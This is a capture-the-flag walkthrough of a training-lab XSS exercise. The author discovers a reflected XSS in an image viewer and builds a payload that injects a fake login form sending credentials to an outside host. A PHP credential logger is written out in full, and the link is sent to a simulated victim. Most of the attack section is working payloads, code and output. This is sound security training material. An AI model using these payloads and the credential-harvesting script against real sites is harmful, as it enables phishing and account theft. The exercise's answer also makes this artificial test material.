








## Exercises

### Question 1 — Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.

Target accessed at `10.129.234.166` (ACADEMY-XSS-ASMT), the Online Image Viewer from this section.



#### Finding a Working Payload

Tried the basic script payload directly in the `url` parameter first:

```
http://10.129.234.166/phishing/index.php?url=<script>alert("test")</script>
```

Nothing executed — dead image icon, no alert.


Checked the Network tab in Firefox Developer Tools, confirmed a 200 response with the payload reflected unescaped in the HTML, then copied the full URL into XSStrike to search for a payload that would actually fire:

```shell
xsstrike -u 'http://10.129.234.166/phishing/index.php?url=XSS' --skip

	XSStrike v3.1.5

[~] Checking for DOM vulnerabilities 
[+] WAF Status: Offline 
[!] Testing parameter: url 
[!] Reflections found: 1 
[~] Analysing reflections 
[~] Generating payloads 
[!] Payloads generated: 3095 
------------------------------------------------------------
[+] Payload: '><detaiLS%0aoNpOINTErentER+=+(prompt)``%0dx> 
[!] Efficiency: 100 
[!] Confidence: 9 
------------------------------------------------------------
[+] Payload: '><hTmL%09OnPOiNteREnter%09=%09a=prompt,a()> 
[!] Efficiency: 100 
[!] Confidence: 9 
------------------------------------------------------------
[+] Payload: '><htML%09onMoUsEoVer+=+a=prompt,a()%0dx> 
```

**Breakdown:**

- `xsstrike` runs the tool via its symlink
- `-u 'http://10.129.234.166/phishing/index.php?url=XSS'` passes the target URL with the `url` parameter marked for testing
- `--skip` skips the interactive "continue scanning?" prompt after each found payload

The `url` parameter reflects, and XSStrike confirmed every basic `<script>` injection was being filtered — all of its generated payloads broke out of an attribute context with `'><` and used non-`<script>` elements with event-handler attributes instead.

#### Testing Candidate Payloads Manually

Tested the plain `<script>` breakout version first:

```
http://10.129.234.166/phishing/index.php?url='><script>alert(1)</script>
```



This worked cleanly — alert fired, no leftover artifacts in the page afterward.

Also tried the `` variant for comparison:

```
http://10.129.234.166/phishing/index.php?url='>
```


This also executed — the confirm dialog popped showing the domain — but left a broken image icon and a stray `'>` fragment visible on the page afterward, since the original markup following the injection point was still rendering. The `<script>` version left no such leftovers, so that was the one carried forward into the login-form injection.

#### Building the Login Form Injection

Started with the login form injection from the module, written to `document.write()`:

```
'><script>document.write('<h3>Please login to continue</h3><form action=http://—REDACTED—><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');</script>
```



The login form appeared, but the original Image URL field and a leftover `'>` fragment were still showing underneath. Used the browser's Inspector (right-click → Inspect) to find the id of the original form to remove:



Added the removal call to the payload:

```
'><script>document.write('<h3>Please login to continue</h3><form action=http://—REDACTED—><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script>
```



The URL field was gone, but a small `'>` leftover was still visible. Commented out the remaining original markup by appending an HTML opening comment after the payload:

```
'><script>document.write('<h3>Please login to continue</h3><form action=http://—REDACTED—><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```



Fully clean — this was the final payload.

#### Setting Up Credential Capture

Wrote the credential-logging PHP script with a direct `echo`:

```shell
mkdir -p /tmp/tmpserver && echo '<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.129.234.166/phishing/index.php");
    fclose($file);
    exit();
}
?>' > /tmp/tmpserver/index.php
```

Checking the written file revealed a problem — the quotes around the array keys had been stripped:

```shell
cat index.php

<?php
if (isset($_GET[username]) && isset($_GET[password])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET[username]} | Password: {$_GET[password]}
");
    header("Location: http://10.129.234.166/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

The single quotes wrapping `'username'` and `'password'` inside the PHP script collided with the single quotes `echo` was using to wrap the entire script, closing the shell's quoting early. On PHP 8.4, a bareword array key like `$_GET[username]` throws a fatal `Error: Undefined constant "username"` rather than silently falling back to a string, which would have crashed the script the moment a real request hit it.

Fixed by rewriting the file with a heredoc instead, which passes its contents through literally with no shell interpretation:

```shell
cat > /tmp/tmpserver/index.php << 'EOF'
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.129.234.166/phishing/index.php");
    fclose($file);
    exit();
}
?>
EOF
```

**Breakdown:**

- `cat > /tmp/tmpserver/index.php << 'EOF' ... EOF` is a heredoc — everything between the two `EOF` markers is written to the file exactly as typed
- Quoting the opening `'EOF'` disables variable and quote expansion inside the block entirely, so the PHP `$_GET['username']` syntax survives untouched

Verified the fix:

```shell
cat /tmp/tmpserver/index.php

<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.129.234.166/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Started the PHP listener:

```shell
sudo php -S 0.0.0.0:80

[sudo] password for —REDACTED—: 
[Wed Oct 28 18:17:32 2026] PHP 8.4.27 Development Server (http://0.0.0.0:80) started
```

**Breakdown:**

- `sudo` is needed to bind to port 80, a privileged port
- `php -S 0.0.0.0:80` starts PHP's built-in development server, listening on all interfaces on port 80

#### Sending the Link and Capturing Credentials

Visited `/phishing/send.php`, pasted in the final payload URL, and clicked Send:



Checked the credential log:

```shell
cat creds.txt

Username: —REDACTED— | Password: —REDACTED—
```

The victim had submitted real —REDACTED— credentials to the fake login form. Used them to log into `/phishing/login.php`:




**Answer:** `—REDACTED—`